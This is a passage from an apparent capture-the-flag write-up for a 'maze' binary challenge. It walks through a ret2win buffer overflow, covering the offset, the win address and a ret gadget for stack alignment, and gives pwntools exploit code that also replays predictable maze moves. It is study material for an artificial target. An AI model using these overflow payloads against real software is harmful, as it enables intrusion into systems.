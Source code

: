 This most likely means that we have some kind of win function! 
If we actually go through the function, we can see this:
![](/assets/images/writeups/maze/image-11.png)

Let's just jump there!

Therefore, this is our exploit:
```py
rip_offset = 0x38
win = 0x4017b4

# Send winning payload and enjoy :)
io.recvuntil(b'record your name : ')
io.sendline(b'A' * rip_offset + p64(win))
```

Using this actually made us jump to system! But.. our $rsp was not aligned to 0x10, which causes a segfault in system.

Let's fix this using a gadget:
```py
rip_offset = 0x38
win = 0x4017b4
ret_gadget = 0x40079f

# Send winning payload and enjoy :)
io.recvuntil(b'record your name : ')
io.sendline(b'A' * rip_offset + p64(ret_gadget) + p64(win))
```

And then we r00t.

Full Exploit:

```py
io = start()

# Send anything to start the game.
io.send(b'j')

# Due to the fact that they randomize the locations of the guards via 
# a rand that is predictable, we can simply beat the first 4 levels on our own, 
# and write the way to beat them. 
# That way, we'll always beat them and we can simply get to the OPENSESAMI part!
beat_3_levels = 'ssdddwwdddssddwwwddssdssdssassddsssassd'

# Beat first 3 levels.
for i in range(3):
    io.send(beat_3_levels)

io.recvuntil("level 3")

beat_level_4 = 'ssdddwwdddssdssssassasssddddddssdddd'
io.send(beat_level_4)

io.recvuntil("level 4")

get_to_open_sesami = 'ssdddwwdddssddwwddssdsdsssassdd' + 'j' * 80 + 'sssassaaaaa'
io.send(get_to_open_sesami)

# Get to the coordinates for the open sesami!
```